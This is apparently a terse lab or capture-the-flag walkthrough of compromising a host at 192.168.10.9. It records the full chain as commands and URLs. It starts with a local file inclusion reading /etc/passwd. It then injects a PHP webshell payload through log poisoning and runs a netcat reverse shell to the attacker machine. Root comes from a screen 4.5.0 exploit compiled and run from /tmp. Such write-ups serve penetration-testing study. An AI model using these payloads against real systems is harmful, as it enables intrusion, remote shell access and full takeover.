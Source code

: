 #found port 80 open

#directory scan showed index.php

#enumeration

#in contact.php;s thankyou page, found a LFI
	http://192.168.10.9/thankyou.php?file=../../../../../../../../../etcpasswd

#used it to get a shell

#used this LFI:
	http://192.168.10.9/thankyou.php?file=<?php system($_GET['cmd']) ?> 

#now we have a webshell

#used this URL to get shell:
	192.168.10.9/thankyou.php?file=/var/log/nginx/error.log&cmd=nc -e /bin/bash 192.168.10.10 1234

#enumeration

#found screen 4.5.0

#exp in searchsploit

#broken down in 3 parts
	one libhax.c
	one rootshell.c
	one exp.sh

#compiled on local machine
	gcc -fPIC -shared -ldl -o libhax.so libhax.c
	gcc -o rootshell rootshell.c

#then upload all three in /tmp directory of victim machine

#give perms to shell script
	chmod 777 exp.sh

#run shell script
	./exp.sh

#we got root!